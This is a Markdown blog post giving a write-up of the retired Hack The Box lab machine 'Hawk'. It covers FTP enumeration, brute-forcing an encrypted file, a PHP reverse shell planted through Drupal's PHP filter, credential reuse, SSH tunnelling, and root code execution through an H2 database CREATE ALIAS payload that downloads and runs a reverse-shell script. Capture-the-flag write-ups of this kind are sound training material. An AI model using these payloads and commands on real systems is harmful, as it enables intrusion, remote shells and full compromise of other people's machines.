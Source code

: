 ```yaml
---
layout: post
title: Hack The Box - Hawk
categories: hack-the-box
tags: [linux, web, drupal, rce, cryptography, networking, pivoting, ssh]
description: My write-up for Hawk from Hack The Box.
image: /hackthebox/hawk/0.png
redirect_from: "/HackTheBox-Hawk/"
---
```


<hr>
<br> Hawk has retired and this is my write-up about it.
<br> It's a Linux box and it's ip is 10.10.10.102 so let's jump right in !
![](/images/hackthebox/hawk/0.png)
<hr>
## Nmap
<br> Starting with a simple nmap scan to scan tor TCP , UDP ports and services.
`nmap -sV -sT -sU 10.10.10.102`
![](/images/hackthebox/hawk/1.png)
<br>
<br> We will see that we got FTP on port 21 , SSH on port 22 , HTTP on port 80 running apache server and HTTP on port 8082 running H2 Database HTTP Console.
<br>
<hr>
## FTP
<br> Since there's FTP on the box let's check if we can do anonymous login.
![](/images/hackthebox/hawk/2.png)
<br> We could login as anonymous and we got a file called : .drupal.txt.enc
<br> Since it ends with .enc then it's an encrypted file.
<br> Let's run file command against it to get more information.
<br>
```
file drupal.txt.enc
drupal.txt.enc : openssl enc'd data with salted password , base64 encoded
```
<br> So base64 encoded ? Let's decode it.
<br>
`base64 -d drupal.txt.enc > drupal_decoded.txt.enc`
![](/images/hackthebox/hawk/3.png)
<br> Now the file is ready for bruteforcing.
<br>
<hr>
## Decrypting The File
<br> To get the password for decryption we will use a tool called bruteforce-salted-openssl with rockyou.
<br> It's already installed on kali but if you're not using kali you can get it from [here](https://github.com/glv2/bruteforce-salted-openssl)
<br> Now there's a small problem. We need to specify the right cipher and digest to be able to crack the file so we have to do some guessing.
<br> I already cracked it so the cipher is AES-256-CBC and the digest is SHA256.
`bruteforce-salted-openssl -t 50 -f /usr/share/wordlists/rockyou.txt -d sha256 drupal_decoded.txt.enc -1`
<br> You may ask yourself why I didn't specify the cipher. I didn't specify it because the tool uses AES-256-CBC by default.
![](/images/hackthebox/hawk/4.png)
<br> Great ! We got the password : friends . Let's decrypt the file.
`openssl aes-256-cbc -d -in drupal_decoded.txt.enc -out drupal.txt -k friends`
![](/images/hackthebox/hawk/5.png)
<br> Now we have a username : "daniel" and a password : PencilKeybaordScanner123
<br>
<hr>
## Drupal
<br> We see in the message that the password is for a portal. But what portal?
<br> Let's visit the website on port 80
![](/images/hackthebox/hawk/6.png)
<br> We see that it's running drupal CMS 
<br> Let's login with the credentials we have.
<br> Username daniel didn't work but admin worked and we got in as admin !
![](/images/hackthebox/hawk/7.png)
<br> After we enumerate for a while we will see some interesting stuff.
<br> The content tab which allows us to add content and the modules tab.
<br> If we tried to add content we will get two options : Article or a basic page.
<br> We will focus on basic pages for sure but we can only use html , filtered html and plain text .
<br> Let's look in the modules tab.
<br> We will find a module called php filter which allows us to use php in pages. After we enable it we will get a fourth option : php code
![](/images/hackthebox/hawk/8.png)
<br> Great ! Let's get a reverse shell 
`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.xx.xx/9090 0>&1'");`
![](/images/hackthebox/hawk/9.png)
![](/images/hackthebox/hawk/10.png)
<br> Let's check our listener.
![](/images/hackthebox/hawk/11.png)
<br> bam we got a low privilege shell as www-data !
<br>
<hr>
## Privilege Escalation to daniel
<br> So we're now in as www-data let's check sensitive files first.
<br> In drupal 7 documentation [This section](https://www.drupal.org/docs/7/install/step-3-create-settingsphp-and-the-files-directory) it's mentioned that settings.php contains where the database is located , how to access it and the credentials to access it. So this file has some sensitive information let's check that out.
![](/images/hackthebox/hawk/12.png)
![](/images/hackthebox/hawk/13.png)
<br> We got a password : drupal4hawk , Let's try ssh
![](/images/hackthebox/hawk/14.png)
<br> We got in ! But when we login we get a python interpreter. We will get a shell with pty
<br>
```
import pty
pty.spawn("/bin/sh")
```
![](/images/hackthebox/hawk/15.png)
<br> And we got user ! :D
<br>
<hr>
## Accessing H2 Database
<br> Now with some regular enumeration if we check out root processes we will see those 2 processes.
![](/images/hackthebox/hawk/16.png)
<br> Sounds familiar ? Yup the H2 Database.
<br> If we return to our nmap scan we will see port 8082 running H2 Database HTTP Console.
![](/images/hackthebox/hawk/1.png)
<br> Now we know that it's running as root so let's try to access that.
![](/images/hackthebox/hawk/17.png)
<br> Remote connection is disabled. This means that we can only connect locally.
<br> To bypass that we will use ssh tunneling.
<br> And if you don't know what ssh tunneling is ... simply we will forward the connection from the box to our machine. This means that the H2 console will be accessed locally from the box then that connection will be forwarded to us.
`ssh -L 8080:127.0.0.1:8082 daniel@10.10.10.102`
![](/images/hackthebox/hawk/18.png)
<br> Now if we visit our localhost on port 8080 we will get the login page.
<br> By default it doesn't have a password so we can access the console without credentials but when we login without credentials it gives an error.
![](/images/hackthebox/hawk/19.png)
<br> Let's try changing the JDBC URL to something we know that it exists. /root
![](/images/hackthebox/hawk/20.png)
<br> It worked . Now we have access to the console.
![](/images/hackthebox/hawk/21.png)
<br>
<hr>
## Abusing H2 Database ALIAS and Privilege Escalation to root
<br> Basically the [CREATE ALIAS](http://www.h2database.com/html/grammar.html#create_alias) method creates a function that executes java code.
<br> Since we can execute java code then we can do anything. So we will create a function that executes system commands then we will get a shell.
<br> First we will create ALIAS called SHELLEXEC. The payload will be like this :
<br>
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
![](/images/hackthebox/hawk/22.png)
<br> Then we will execute system commands by calling the function that we created. Let's execute whoami.
`call SHELLEXEC("whoami")`

![](/images/hackthebox/hawk/23.png)
<br> And we see root :D
<br>
<br>
<br> *NOTE: That H2 Database ALIAS exploit is not mine. Credits go to the creator . check his write-up about the exploit [here](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)*
<br>
<br>
<br>
<br> now since we can execute system commands it's over ! We can get a root shell.
<br> But We can't write a shell command and execute it right away it won't work so instead of that we can write our shell in a .sh file then upload it and execute it.
<br> Another way is to use msfvenom but it's not needed here because the exploit is simple.
<br> First we will create the shell file.
`bash -i >& /dev/tcp/10.10.xx.xx/1234 0>&1 > shell`
<br> Then we will set up a HTTP server with python to host the shell.
`python -m SimpleHTTPServer 7777`
![](/images/hackthebox/hawk/24.png)
<br> Now we will use wget to get the shell file on the box.
`call SHELLEXEC("wget http://10.10.xx.xx:7777/shell")`
![](/images/hackthebox/hawk/25.png)
![](/images/hackthebox/hawk/26.png)
<br> We will make the file executable. 
`call SHELLEXEC("chmod +x shell")`
![](/images/hackthebox/hawk/27.png)
<br> Then we will rename it to shell.sh
`call SHELLEXEC("mv shell shell.sh")`
![](/images/hackthebox/hawk/28.png)
<br> And finally we execute it.
`call SHELLEXEC("bash shell.sh")`
![](/images/hackthebox/hawk/29.png)
<br> We don't get a response which is a good sign. Let's check our listener.
![](/images/hackthebox/hawk/30.png)
<br> And we get a shell as root ! :D
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Hack The Box write-up : [Hack The Box - Jerry](/hack-the-box/jerry/)
<br> Next Hack The Box write-up : [Hack The Box - Active](/hack-the-box/active/)
<hr>
